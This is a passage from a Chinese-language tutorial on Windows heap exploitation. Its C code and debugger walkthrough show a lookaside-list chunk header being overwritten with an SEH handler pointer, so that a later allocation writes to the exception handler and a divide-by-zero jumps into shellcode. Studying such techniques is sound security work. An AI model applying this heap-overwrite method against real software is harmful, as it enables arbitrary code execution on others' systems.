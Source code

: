 		HeapFree(hp,0,h3);

		HeapFree(hp,0,h2);

		memcpy(h1,shellcode,300);

		h2 = HeapAlloc(hp,HEAP_ZERO_MEMORY,16);

		h3 = HeapAlloc(hp,HEAP_ZERO_MEMORY,16);

		memcpy(h3,"x90x1Ex3Ax00",4);

		int zero=0;

		zero=1/zero;

		printf("%d",zero);

	}

我们在int 3断下，先看看快表的分配。前面还是和空表的一样。

![](<http://ww1.sinaimg.cn/large/7fb67c86ly1g1rzludrd1j213r0o8ju5.jpg>)

三次申请完堆之后的内存。

![](<http://ww1.sinaimg.cn/large/7fb67c86ly1g1rzn7lf79j210x0n4aci.jpg>)

我们再看看释放之后与空表不同的索引，在堆起始点偏移0x688的位置，这个也就是前面申请的h3的位置。

![](<http://ww1.sinaimg.cn/large/7fb67c86ly1g1rzpp467oj213n0o1act.jpg>)

再释放h2，因为h2和h3的大小是一样的所以会链在h3的后面

![](<http://ww1.sinaimg.cn/large/7fb67c86ly1g1rzt23laaj20uf0dfaav.jpg>)

![](<http://ww1.sinaimg.cn/large/7fb67c86ly1g1rztld3y5j20oj0dw3z5.jpg>)

接下来如果我们再申请空间，它的起始地址就会从刚刚释放的h2中取得。这时候如果我们把h2的块首位置覆盖为S.E.H链的某个指针，来看看效果。

![](<http://ww1.sinaimg.cn/large/7fb67c86ly1g1rzxwv9xgj213y0nkacy.jpg>)

可以看到现在我们已经把h2的块首覆盖为了最终异常处理函数。

![](<http://ww1.sinaimg.cn/large/7fb67c86ly1g1s0111eghj20zu0damyg.jpg>)

![](<http://ww1.sinaimg.cn/large/7fb67c86ly1g1s02i8c9lj211l0cg3zj.jpg>)

我们再申请空间可以看到h3的块首已经变成了最终异常处理函数，如果我们再一次申请空间，那么拿到的地址就是最终异常处理函数的地址，我们再往里写想要的数据，再用除0异常就可以达到想要的目的。

![](<http://ww1.sinaimg.cn/large/7fb67c86ly1g1s06j4a1yj21360lyq56.jpg>)

![](<http://ww1.sinaimg.cn/large/7fb67c86ly1g1s074f248j213a0m6go4.jpg>)

3A1E90里面的EB 40就是个小跳转，可以帮助我们跳转到shellcode

![](<http://ww1.sinaimg.cn/large/7fb67c86ly1g1s07wz5gpj20fm0dywf2.jpg>)
